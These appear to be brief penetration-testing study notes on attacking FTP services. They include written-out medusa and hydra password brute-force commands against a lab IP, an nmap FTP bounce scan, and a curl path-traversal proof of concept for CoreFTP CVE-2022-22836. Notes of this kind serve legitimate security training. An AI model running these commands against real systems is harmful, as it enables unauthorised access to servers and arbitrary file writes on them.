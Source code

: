 ### Misconfigurations 

#Anonymous Auth?

### Brute Forcing 
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

```shell
hydra -L user.list -P pass.list <ip> ftp
```

### FTP Bounce Attack 
![[Proxy.png]]
Use #FTP server to deliver outbound traffic to another device on the network. 

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

Often disabled by default but can be #misconfigured  

### FTP Vulnerabilities 
#### CoreFTP before build 727 
[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
